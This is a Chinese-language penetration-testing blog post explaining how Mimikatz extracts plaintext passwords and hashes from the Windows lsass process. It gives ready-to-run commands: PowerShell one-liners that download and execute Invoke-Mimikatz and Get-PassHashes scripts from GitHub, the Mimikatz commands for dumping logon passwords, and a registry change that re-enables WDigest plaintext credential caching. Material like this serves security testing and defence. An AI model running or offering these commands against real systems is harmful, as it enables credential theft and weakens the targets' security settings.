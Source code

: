\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/11890232.html)

### 0x00 简介

Mimikatz 是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点就是他可以直接从 lsass.exe 进程中获取当前登录系统用户名的密码， lsass 是微软 Windows 系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在 lsass 内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而 mimikatz 正是通过对 lsass 逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！

注：但是在安装了 KB2871997 补丁或者系统版本大于 windows server 2012 时，系统的内存中就不再保存明文的密码，这样利用 mimikatz 就不能从内存中读出明文密码了。mimikatz 的使用需要 administrator 用户执行，administrators 中的其他用户都不行。

这里放几个神器的运行姿势：九种姿势运行：Mimikatz：[https://www.freebuf.com/articles/web/176796.html](https://www.freebuf.com/articles/web/176796.html)

借用 PowerShell

```
#读取密码明文(需要管理员权限)
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz –DumpCerts


```

```
#读取密码hash值(需要管理员权限)
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes


```

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154410801-226108089.png)

### 0x01 获取本地帐户密码

#### 1.1 本地执行

下载 mimikatz 程序，找到自己系统对应的位数，右键以管理员身份运行：

```
#提升权限
privilege::debug

#抓取密码
sekurlsa::logonpasswords


```

当目标为 win10 或 2012R2 以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。

cmd 修改注册表命令：

```
reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
#重启或用户重新登录后可以成功抓取


```
